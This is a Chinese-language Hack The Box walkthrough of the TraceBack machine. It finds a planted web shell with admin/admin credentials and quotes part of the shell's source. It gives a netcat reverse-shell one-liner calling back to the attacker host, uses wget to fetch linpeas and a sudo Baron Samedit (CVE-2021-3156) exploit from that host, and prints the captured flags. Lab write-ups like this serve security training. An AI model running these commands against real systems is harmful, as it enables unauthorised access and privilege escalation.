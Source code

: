 ###### tags: `Hack the box` `HTB` `Easy` `Linux`

# TraceBack
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.27.6 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.27.6:22
Open 10.129.27.6:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbMNfxYPZGAdOf2OAbwXhXDi43/QOeh5OwK7Me/l15Bej9yfkZwuLhyslDCYIvi4fh/2ZxB0MecNYHM+Sf4xR/CqPgIjQ+NuyAPI/c9iXDDhzJ+HShRR5WIqsqBHwtsQFrcQXcfQFYlC+NFj5ro9wfl2+UvDO6srTUxl+GaaabePYm2u0mlmfwHqlaQaB8HOUb436IdavyTdvpW7LTz4qKASrCTPaawigDymMEQTRYXY4vSemIGMD1JbfpErh0mrFt0Hu12dmL6LrqNmUcbakxOXvZATisHU5TloxqH/p2iWJSwFi/g0YyR2JZnIB65fGTLjIhZsOohtSG7vrPk+cZ
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2jCEklOC94CKIBj9Lguh3lmTWDFYq41QkI5AtFSx7x+8uOCGaFTqTwphwmfkwZTHL1pzOMoJTrGAN8T7LA2j0=
|   256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL4LOW9SgPQeTZubVmd+RsoO3fhSjRSWjps7UtHOc10p
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

他在`http://10.129.27.6/`的頁面裡面有一個`Xh4H`，去google可ˇ找到他的[github](https://github.com/Xh4H)，他說有`backdoor`，在`respository`裡面搜尋shell可以找到[Web-Shells](https://github.com/Xh4H/Web-Shells)

![NTraceBack_1.png](picture/TraceBack_1.png)

一個一個try看能不能中，果然中了`http://10.129.27.6/smevk.php`，點開裡面的[code](https://github.com/Xh4H/Web-Shells/blob/master/smevk.php)發現是用`admin/admin`登入

```php
<?php 
/*

SmEvK_PaThAn Shell v3 Coded by Kashif Khan .
https://www.facebook.com/smevkpathan
smevkpathan@gmail.com
Edit Shell according to your choice.
Domain read bypass.
Enjoy!

*/
//Make your setting here.
$deface_url = 'http://pastebin.com/raw.php?i=FHfxsFGT';  //deface url here(pastebin).
$UserName = "admin";                                      //Your UserName here.
$auth_pass = "admin";                                  //Your Password.
//Change Shell Theme here//
$color = "#8B008B";                                   //Fonts color modify here.
$Theme = '#8B008B';                                    //Change border-color accoriding to your choice.
$TabsColor = '#0E5061';                              //Change tabs color here.
#-------------------------------------------------------------------------------

?>
<?php
$smevk = "PD9waHAKCiRkZWZhdWx0X2FjdGl...
...
```

開啟nc，在下面`Execute`用reverse
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.54 4444 >/tmp/f

┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp4444

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
webadmin@traceback:/var/www/html$
```

用linpeas
```
webadmin@traceback:/tmp$ wget 10.10.14.54/linpeas.sh
webadmin@traceback:/tmp$ chmod +x linpeas.sh
webadmin@traceback:/tmp$ ./linpeas.sh

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

用[CVE-2021-3156](https://github.com/worawit/CVE-2021-3156?tab=readme-ov-file)得root，在`/home/sysadmin`得user.txt，在/root得root.txt
```
webadmin@traceback:/tmp$ wget 10.10.14.54/exploit_nss.py
webadmin@traceback:/tmp$ python3 exploit_nss.py

# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@traceback:/home/sysadmin# cat user.txt
c6658bc0aea49a9aa70fa76258d998f1

root@traceback:/root# cat root.txt
98132596c8143591ea8c4bcc8d848fa4
```
